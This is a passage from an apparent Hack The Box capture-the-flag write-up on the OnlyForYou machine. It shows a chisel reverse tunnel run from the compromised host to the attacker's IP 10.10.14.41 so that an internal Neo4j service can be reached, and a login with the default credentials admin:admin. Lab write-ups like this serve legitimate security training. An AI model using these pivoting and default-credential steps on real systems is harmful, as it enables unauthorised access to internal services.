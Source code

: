 Then download chisel to the victim's machine and setup a chisel client:

```bash
www-data@only4you:~/only4you.htb$ cd /tmp
cd /tmp
www-data@only4you:/tmp$ ./chisel.1 client 10.10.14.41:9000 R:8001:localhost:8001
<sel.1 client 10.10.14.41:9000 R:8001:localhost:8001
2023/04/24 12:44:35 client: Connecting to ws://10.10.14.41:9000
2023/04/24 12:44:35 client: Connected (Latency 30.328548ms)

```

Once this is done we can connect to the service via our own browser (http://127.0.0.1:8001/login).

### Neo4j

>Neo4j is a graph database that stores data as nodes and relationships, and uses the Cypher query language to retrieve and manipulate the data. In short, a relational database is like a spreadsheet while Neo4j is like a social network.

Cypher has a bit of a different terminology than a relational database, what's most important to us are labels and their keys. Labels are used to group similar nodes together based on their common properties. Keys are used to identify unique nodes or relationships in the graph. Think of labels as similar to table names, and keys as similar to primary keys in a relational database.

![neo4j](/assets/img/htb-onlyforyou-neo4j-login.png)

By using default credentials (admin:admin) we can authenticate.
